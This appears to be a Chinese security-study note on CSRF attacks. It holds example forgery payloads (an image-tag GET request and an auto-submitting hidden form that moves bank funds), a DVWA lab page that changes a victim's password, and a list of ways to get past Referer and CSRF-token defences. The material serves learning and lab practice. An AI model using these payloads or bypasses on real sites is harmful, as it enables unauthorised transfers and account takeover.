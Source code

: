 # CSRF漏洞

## CSRF漏洞利用

### CSRF简介

CSRF(Cross-Site Request Forgery)跨站请求伪造，也称为One Click Attack或者Session Riding。听起来像跨站脚本(XSS)但是二者并不同，XSS是利用站点内的信任用户，而CSRF则通过伪装成受信任用户请求受信任的网站。

### CSRF攻击原理和类型

原理如下图：

![CSRF攻击原理](./csrf_fig/csrf-figure.jpg)

类型根据伪造的请求的类型分为GET和POST两种，如下：

- `<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>`

- 
```html
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

参考：[浅谈CSRF攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

## CSRF实例与进阶

### CSRF例子

以靶场[DVWA](https://github.com/digininja/DVWA/blob/master/README.zh.md)为例。

这里仅记录一种情况，具体可以查看参考资料。

**medium level**

先模拟受害者登录DVWA，然后设置安全系数为medium。

![DVWA配置](./csrf_fig/dvwa-medium-1.png)

当受害者gordonb在登录了DVWA的情况下访问构造的`hack.html`文件如下：

```html
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
<img src="http://localhost:8080/vulnerabilities/csrf/?password_new=666&password_conf=666&Change=Change#" alt="">
<img src="1.png">
</body>
</html>
```

则其密码就会被改成上面url中的密码。

level high 增加了`user_token`验证。

由于现在浏览器不允许跨站解析，所以无法直接通过构造一个html页面来盗取其`user_token`除非能把恶意网页部署在与网址同一个服务器上。网上许多博客采用借用XSS漏洞来盗取`user_token`的方式 $^{[1]}$ ，但是在实际上也很难做到，只能说理论上可行。还有做法是利用BurpSuite的CSRF Token Tracker绕过验证插件 $^{[2],[3]}$ 。

参考：
- [1] [\[超详细DVWA-CSRF全等级通关教程\]都是干货，你确定不看看？](https://cloud.tencent.com/developer/article/1825357)
- [2] [DVWA-CSRF全通关（图文详解+源码解析）](https://blog.csdn.net/weixin_46709219/article/details/109325123)
- [3] [DVWA 靶场 CSRF 通关解析](https://blog.csdn.net/2302_82189125/article/details/138537008)

### CSRF防护绕过

1. Referer绕过：

（1）空referer绕过

（2）包含referer：若只检查是否包含网址，可以新建一个以网址为名的文件、文件夹

2. CSRF-token绕过：

（1）删除令牌：删除cookie/参数中的token，免服务器验证

（2）令牌共享：创建两个账户，替换token看是否可以互相共用

（3）篡改令牌值：有时服务器只检查令牌的长度

（4）解码令牌：尝试进行md5或Base64编码

（5）修改请求方法：post改为get

（6）窃取token：重定向、XSS、web缓存欺骗、clickjacking等都有可能会导致token泄露。

参考：[跨站请求伪造（CSRF）挖掘技巧及实战案例全汇总](https://cloud.tencent.com/developer/article/1516424)
